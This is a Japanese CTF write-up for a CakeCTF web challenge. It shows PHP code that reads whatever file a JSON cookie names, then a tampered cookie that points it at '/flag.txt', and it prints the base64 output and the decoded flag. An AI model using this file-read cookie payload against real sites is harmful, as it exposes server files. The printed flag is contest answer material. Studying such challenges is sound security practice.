

# Writeup

WebページのソースコードとURLが与えられる。

* http://web.cakectf.com:8003/

```php
<?php
function img2b64($image) {
    return 'data:jpg;base64,'.base64_encode(file_get_contents($image));
}

function get_cached_contents() {
    $results = [];

    if (empty($_COOKIE['cache'])) {

        $images = glob('images/*.jpg');
        $expiry = time() + 60*60*24*7;

        foreach($images as $image) {
            $text = preg_replace('/\\.[^.\\s]{3,4}$/', '.txt', $image);
            $description = trim(file_get_contents($text));
            array_push($results, array(
                'name' => $image,
                'description' => $description
            ));
            $_SESSION[$image] = img2b64($image);
        }

        $cookie = array('data' => $results, 'expiry' => $expiry);
        setcookie('cache', json_encode($cookie), $expiry);

    } else {

        $cache = json_decode($_COOKIE['cache'], true);
        if ($cache['expiry'] <= time()) {

            $expiry = time() + 60*60*24*7;
            for($i = 0; $i < count($cache['data']); $i++) {
                $result = $cache['data'][$i];
                $_SESSION[$result['name']] = img2b64($result['name']);
            }

            $cookie = array('data' => $cache['data'], 'expiry' => $expiry);
            setcookie('cache', json_encode($cookie), $expiry);

        }

        return $cache['data'];

    }

    return $results;
}
?>
```

Cookieに`cache`が無いとき、以下の値が`cache`にセットされる。

```
cache:

%7B%22data%22%3A%5B%7B%22name%22%3A%22images%5C%2F01.jpg%22%2C%22description%22%3A%22Half%20sleeping%20cat%22%7D%2C%7B%22name%22%3A%22images%5C%2F02.jpg%22%2C%22description%22%3A%22When%20you%20gaze%20into%20the%20cat%2C%20the%20cat%20gazes%20into%20you%22%7D%2C%7B%22name%22%3A%22images%5C%2F03.jpg%22%2C%22description%22%3A%22Fox%20villege%20%3A%29%22%7D%2C%7B%22name%22%3A%22images%5C%2F04.jpg%22%2C%22description%22%3A%22TV%20cat%22%7D%2C%7B%22name%22%3A%22images%5C%2F05.jpg%22%2C%22description%22%3A%22Smiling%20emu%22%7D%2C%7B%22name%22%3A%22images%5C%2F06.jpg%22%2C%22description%22%3A%22This%20lemur%20often%20sits%20someone%27s%20shoulder%22%7D%2C%7B%22name%22%3A%22images%5C%2F07.jpg%22%2C%22description%22%3A%22Capybara%20is%20not%20as%20fluffy%20as%20you%20may%20imagine%22%7D%2C%7B%22name%22%3A%22images%5C%2F08.jpg%22%2C%22description%22%3A%22There%20were%20several%20serval%20cats%22%7D%2C%7B%22name%22%3A%22images%5C%2F09.jpg%22%2C%22description%22%3A%22Neko%20cafe%20%40%20Akihabara%22%7D%5D%2C%22expiry%22%3A1630825312%7D
```

jpgを読み込んでいる部分を`/flag.txt`にできれば読み込めそうなことが分かる。

```diff
{
    "data": [
        {
+           "name": "/flag.txt",
            "description": "Hoge sleeping cat"
        },
        {
            "name": "images/02.jpg",
            "description": "When you gaze into the cat, the cat gazes into you"
        },
        {
            "name": "images/03.jpg",
            "description": "Fox villege :)"
        },
        {
            "name": "images/04.jpg",
            "description": "TV cat"
        },
        {
            "name": "images/05.jpg",
            "description": "Smiling emu"
        },
        {
            "name": "images/06.jpg",
            "description": "This lemur often sits someone's shoulder"
        },
        {
            "name": "images/07.jpg",
            "description": "Capybara is not as fluffy as you may imagine"
        },
        {
            "name": "images/08.jpg",
            "description": "There were several serval cats"
        },
        {
            "name": "images/09.jpg",
            "description": "Neko cafe @ Akihabara"
        }
    ],
    "expiry": 1630825312
}
```

このようにCookieを書き換えると、ソースに以下のようなデータが表示される。



```
Q2FrZUNURns0bjFtNGxzXzRyM19oMG4zc3RfdW5sMWszX2h1bTRuc182ZTA4MWF9Cg==
```

これをBase64デコードするとフラグが得られた。

<!-- CakeCTF{4n1m4ls_4r3_h0n3st_unl1k3_hum4ns_6e081a} -->
